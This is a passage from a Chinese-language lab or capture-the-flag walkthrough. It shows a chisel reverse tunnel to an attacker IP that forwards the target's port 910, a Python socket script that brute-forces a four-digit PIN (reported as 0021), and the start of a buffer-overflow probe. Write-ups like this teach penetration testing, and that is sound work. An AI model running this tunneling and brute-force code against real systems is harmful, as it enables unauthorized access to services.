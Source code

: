 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)将靶机中的910端口转发到本地910端口上

```
chisel.exe client 10.10.14.16:8000 R:910:localhost:910  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截屏2022-02-10 下午4.51.02

完成后测试隧道是否已经建立

```
nc localhost 910  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)截屏2022-02-10 下午4.53.46

### 暴力破解

尝试编写 python 脚本用于暴力破解 PIN 码，首先建立 socket 连接本地910端口，发送 PIN 码和换行符并在响应中检查是否包含`Access denied`，如果不存在说明成功找到 PIN 码

```
import socket   
import sys  
  
for i in range(10000):  
    sys.stdout.write(f"\rTring: {i:04d}")  
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
    s.connect(('localhost',910))  
    s.recv(4096)  
    s.send(f"{i:04d}\n".encode())  
    resp = s.recv(4096)  
    if not b"Access denied" in resp:  
        print(f"\rFound pin: {i:04d}")  
        break  
    s.close()  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)运行发现 PIN 码为0021

### 缓冲区溢出

这貌似是一个比特币转账程序，输入任意字符显示正在执行

```
nc localhost 910  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)尝试输入一串 A 字符，结果显示它覆盖了正在执行的文件名称

```
nc localhost 910  

```
